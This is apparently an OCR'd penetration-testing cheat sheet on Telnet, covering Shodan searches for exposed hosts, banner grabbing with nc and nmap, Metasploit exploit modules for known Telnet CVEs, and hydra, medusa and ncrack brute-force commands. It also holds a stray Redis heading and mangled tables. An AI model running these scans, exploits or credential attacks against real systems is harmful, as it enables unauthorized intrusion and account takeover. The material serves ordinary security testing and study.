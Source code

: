 Telnet

Telnet usually uses port 23,992

What is Telnet?

Telnet is a network protocol used to virtually access a computer and to provide a two-way, collaborative and text-based communication channel between two machines.

| 1 2  | PORT STATE SERVICE VERSION 23/tcp open telnet   |
|------|-------------------------------------------------|

Redis Password Authentication Bruteforcing Methods

| 1 2  | \#Metasploit Framework msf\> use auxiliary/scanner/redis/redis_login  |
|------|-----------------------------------------------------------------------|

Telnet Pentesting

| **![](media/af8e68b1d4ef60ad4ab180ccb81e05b5.png) Shodan search query :**                                                     |
|-------------------------------------------------------------------------------------------------------------------------------|
| port:23                                                                                                                       |
| \# You can use this command only on your shodan-cli : shodan stream --ports 23,1023,2323 --datadir telnet-data/ --limit 10000 |

Banner Grabbing

| 1 2 3 4 5 6 7  | telnet 10.10.x.x 23 nc 10.10.x.x 23 Nmap: banner nc -vn 10.10.x.x 23 nmap -n -sV -Pn --script "\*telnet\* and safe" -p 23 10.10.x.x msf \> use auxiliary/scanner/telnet/telnet_version msf \> use auxiliary/scanner/telnet/lantronix_telnet_version  |
|----------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
![image](https://github.com/user-attachments/assets/0f1cf0cb-cb7e-432a-b6d0-54cc827cbc9c)

![Telnet version grabbing with metasploit module.](media/b059485e9d267a7e98932874291a6648.png)Telnet version grabbing with metasploit module.

Connection Tools

Linux:

| 1  | telnet -l username 10.10.x.x 23  |
|----|----------------------------------|

Windows:

-   Putty

Telnet Vulnerabilities

Specific Vulnerabilities and Exploits

| 1 2 3 4 5 6 7 8 9 10 11 12 13 14  | \#BOF: FreeBSD 7.3 – 9.0; MIT Kerberos v5 Applications (krb5-appl) \<= 1.0.2; Heimdal \<= 1.5.1; GNU inetutils [CVE-2011-4862] msf \> use auxiliary/scanner/telnet/telnet_encrypt_overflow msf \> use exploit/linux/telnet/telnet_encrypt_keyid msf \> use exploit/freebsd/telnet/telnet_encrypt_keyid  \#SenNet Optimal DataLogger \<= V5.37c-1.43c; SenNet Solar Datalogger \<= V5.03-1.56a; SenNet Multitask Meter \<= V5.21a-1.18b [CVE-2017-6048] [TCP/5000] msf \> use auxiliary/scanner/telnet/satel_cmd_exec  \#RuggedCom Rugged Operating System (ROS) Telnet backdoor [CVE-2012-1803] Exploit-DB: 18779.txt msf \> use auxiliary/scanner/telnet/telnet_ruggedcom  \#Lantronix Device Server V5.8.0.1 [UDP\\30718] msf \> use auxiliary/scanner/telnet/lantronix_telnet_password  |
|-----------------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

There are also product-based vulnerabilities and scripts for vulnerabilities.

IBM CICS:

| 1 2 3  | \#Nmap Scripts: nmap --script=cics-enum -p 23 10.10.x.x nmap --script=cics-user-enum -p 23 10.10.x.x  |
|--------|-------------------------------------------------------------------------------------------------------|

IBM TN32701:

| 1 2  | \#Nmap Scripts: nmap --script tn3270-info,tn3270_screen 10.10.x.x  |
|------|--------------------------------------------------------------------|

Telnet Credentials

Brute Forcing

| 1 2 3 4  | hydra -t 2 -L users.list -P passwords.list -M TargetIPs.list -s 23 telnet medusa -t 2 -T 2 -U users.list -P passwords.list -H TargetIPs.list -n 23 -M telnet ncrack -g CL=2 -U users.list -P passwords.list -iL TargetIPs.list -p telnet:23 -oA Result.txt msf \> use auxiliary/scanner/telnet/telnet_login |
|----------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
